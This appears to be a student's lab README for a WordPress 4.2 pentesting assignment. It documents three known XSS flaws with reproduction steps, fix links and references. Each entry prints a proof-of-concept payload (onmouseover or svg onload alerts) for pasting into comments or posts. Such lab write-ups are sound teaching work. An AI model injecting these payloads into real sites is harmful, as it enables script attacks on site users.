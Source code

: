 # Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document 3 affecting an old version of WordPress

Version of WordPress tested: 4.2

## Pentesting Report

1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: (XSS)
    - Tested in version: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
    ![alt text](./XSS1.gif)
  - [x] Steps to recreate:
    1. Go to any post
    2. Paste the following comment:
    ```
   	<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>XSS</a> 
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33549)
  - [x] References:
    - [Link 1](https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)
1. Authenticated Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [x] GIF Walkthrough: 
    ![alt text](./XSS2.gif)
  - [x] Steps to recreate: 
    1. Go to any post
    2. Paste in the following as a comment of the post
    ```
    http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
    ```
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87)
  - [x] References:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564)
3. Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary:
    - Vulnerability types: (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
		![alt text](./XSS3.gif)
  - [x] Steps to recreate: 
    1. Gain privilege to be able to post on website.
    2. Create or modify existing post.
    3. Paste in the following to the post.
    ```
		<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  "> Not A suspicious link </a>
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [Green Recorder](https://github.com/foss-project/green-recorder).

## Notes

The difficulties in this lab for this week was trying to figure out how the exploits would work. 

## License

    Copyright [2018] [Yong Su Lee]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
